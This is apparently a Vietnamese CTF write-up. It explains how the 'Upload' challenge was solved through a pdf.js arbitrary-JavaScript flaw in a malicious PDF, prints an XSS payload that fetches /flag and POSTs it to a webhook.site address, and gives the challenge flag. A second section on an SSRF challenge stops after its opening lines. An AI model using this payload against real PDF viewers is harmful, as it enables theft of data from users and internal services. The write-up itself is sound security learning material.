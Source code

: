 # Upload

Nhìn sơ qua thì chall này cung cấp cho mình 2 link, 1 link của chall, 1 link của bot (thực ra là 1, cùng domain nhưng khác route) thì đây chắc chắn là 1 chall về XSS rồi.

![image](https://hackmd.io/_uploads/rJdrGyNBR.png)

Flag giấu ở endpoint `/flag` và chỉ nhận ip từ localhost, port là 5000 cho nên payload XSS của chúng ra phải route con bot đến đây và fetch sang webhook của chúng ta.

Nhưng chall chỉ cho chúng ta upload 1 file dạng pdf sử dụng pdf.js 

![image](https://hackmd.io/_uploads/HJC6MyVHC.png)

Ở đây version của nó là `2.16.105`

![image](https://hackmd.io/_uploads/HyjqXJVBR.png)

nhưng mình tìm được 1 CVE mới diễn ra hồi tháng 5 vừa qua đó là thực thi mã JS bất kì khi sử dụng 1 file PDF độc hại.

![image](https://hackmd.io/_uploads/rJIOmkVrR.png)


Thử upload file pdf độc hại lên check.

![image](https://hackmd.io/_uploads/BJm-4k4BR.png)

Alert đã có. Giờ viết payload sao để flag route đến webhook của mình thôi.

Payload `fetch('/flag').then(response => { return response.json(); }).then\(data => { fetch('https://webhook.site/a7c640b4-bf85-48b3-bfa1-db406cf9d89a', {method: 'POST',mode: 'no-cors',body: JSON.stringify(data)}) })`

![image](https://hackmd.io/_uploads/SJKT41EHA.png)

> Chú ý khi sửa payload trong BurpSuite thì mình phải để các dấu `\` trước các dấu `()`. (Đọc kĩ [PoC](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/) để biết tại sao).

Gửi đến con bot: http://127.0.0.1:5000/view/file-1717986450021.pdf

![image](https://hackmd.io/_uploads/rJ1UHyVSR.png)

Flag: `AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}`


# Proxy For Life 
 
![image](https://hackmd.io/_uploads/SkB6HkVHC.png)

Nhìn preview kiểu này nghĩ ngay đến SSRF đúng không? Tiếp theo đọc source code. 

![image](https://hackmd.io/_uploads/Sk1fLyNH0.png)
